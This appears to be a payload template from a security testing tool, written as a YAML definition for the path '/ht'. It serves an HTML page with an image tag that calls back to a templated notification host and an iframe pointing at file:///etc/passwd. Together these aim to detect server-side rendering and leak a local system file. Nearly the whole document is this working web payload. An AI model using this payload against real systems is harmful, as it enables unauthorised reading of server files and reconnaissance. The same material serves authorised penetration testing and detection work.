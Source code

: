 ```yaml
---
title: HTML Iframe
description: HTML page with iframe and image callback
weight: 1
pattern: /ht$
is_final: true
data:
  headers:
    Content-Type: text/html
  body: |
    <html>
    <body>
      <img src="{{.NotifyString}}/static-lh" />
      <iframe src="file:///etc/passwd" height="500"></iframe>
    </body>
    </html>

---
```


### /ht

Iframe callback
